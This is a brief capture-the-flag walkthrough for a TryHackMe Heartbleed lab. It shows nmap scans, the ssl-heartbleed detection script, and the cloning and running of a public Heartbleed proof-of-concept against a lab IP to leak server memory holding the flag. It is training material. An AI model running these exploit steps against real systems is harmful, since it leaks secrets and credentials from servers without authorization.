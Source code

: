 # HeartBleed

**Room Link:** [https://tryhackme.com/room/heartbleed](https://tryhackme.com/room/heartbleed)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/443 - HTTPS

We can see the site is vulnerable to heartbleed

**Kali**

```
nmap -p 443 --script ssl-heartbleed $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I had to run the exploit a couple times but eventually I found some interesting info. Most importantly the flag.

**Kali**

```
git clone https://github.com/mpgn/heartbleed-PoC.git
cd heartbleed-PoC/
python2.7 heartbleed-exploit.py 34.240.174.225
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>











